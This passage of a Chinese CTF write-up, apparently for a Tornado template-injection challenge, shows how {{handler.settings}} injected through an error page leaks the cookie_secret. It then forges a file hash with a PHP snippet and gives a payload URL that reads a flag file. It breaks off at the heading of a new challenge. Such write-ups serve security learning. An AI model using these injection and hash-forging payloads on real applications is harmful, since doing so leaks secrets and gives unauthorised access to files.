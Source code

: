  settings中的属性"cookie_secret"（应该是一个经过HMAC加密的够长且随机的字节序列）

settings又作为参数传入了Application类构造函数

**因此可以通过`self.application.settings`获取到cookie_secret**

2. RequestHandler类中的一个方法**将RequestHandler类本身赋值给了handler**，因此handler.settings实际上就是RequestHandler.settings（self.setting）【即`handler`就等于 [`RequestHandler`](https://links.jianshu.com/go?to=https%3A%2F%2Fwww.tornadoweb.org%2Fen%2Flatest%2Fweb.html%23tornado.web.RequestHandler) 】
3. `RequestHandler.settings`别名 `self.application.settings`

4. 在tornado模板中，存在一些可以访问的快速对象,这里用到的是handler.settings，handler 指向RequestHandler，而RequestHandler.settings又指向self.application.settings，所以`handler.settings`就指向RequestHandler.application.settings了，这里面就是我们的一些***环境变量***

==简单而言通过`{{handler.application.settings}}`或者`{{handler.settings}}`就可获得`settings`中的**cookie_secret**。==





`/error?msg={{handler.settings}}`得到cookie_secret:9d1f67f0-bb20-4878-a71e-16da5ce18c57

![image-20220228211001182](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220228211001182.png)

❗注意，这个与抓包里的cookie无关

![image-20220228211146954](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220228211146954.png)



计算filehash:md5(cookie_secret+md5(filename))

```php
<?php
$a='9d1f67f0-bb20-4878-a71e-16da5ce18c57';
$b='/fllllllllllllag';
//echo $a.$b;
echo md5($a.md5($b));
```



payload：

```
/file?filename=/fllllllllllllag&filehash=f0c23d729e726f692178be3dda2f2b4b
```

![image-20220228211604055](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220228211604055.png)





## [极客大挑战 2019]BuyFlag（易）

#### 考点：弱类型比较、绕过数据长度限制、strcmp

点进菜单的payflag，提示:
